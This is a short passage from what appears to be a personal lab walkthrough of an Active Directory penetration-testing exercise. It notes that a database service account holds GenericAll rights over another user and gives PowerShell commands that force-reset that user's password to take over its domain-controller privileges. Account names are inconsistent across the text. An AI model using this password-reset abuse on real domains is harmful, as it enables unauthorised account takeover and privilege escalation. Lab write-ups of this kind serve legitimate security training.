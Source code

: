 # 1. Rights, Privileges and Permissions of `us\srvdba` at `dbvendor.local`
## 1.1 Access Rights
- `db\srvdba` does not have any specific access rights on resources at `dbvendor.local`.
## 1.2 Account Privileges
- `db\srvdba` does not have any specific privileges on resources at `dbvendor.local`.
## 1.3 Account Permissions
- `db\srvdba` has `GenericAll` permissions on `dbvendor\dbXsvc`. We can target our designated user and change it's password.
```powershell
PS C:\Windows\system32> $target_pass = ConvertTo-SecureString -AsPlainText -Force -String 'Password123!'
PS C:\Windows\system32> Set-DomainUserPassword -Identity db57svc -Domain dbvendor.local -AccountPassword $target_pass
```
- We can now abuse the administrative privileges of `dbvendor\db57svc` on `DB-DC` at [[2. Lab Walkthrough/7th Forest (db.local)/db.local/2. Kill Chain|2. Kill Chain]].
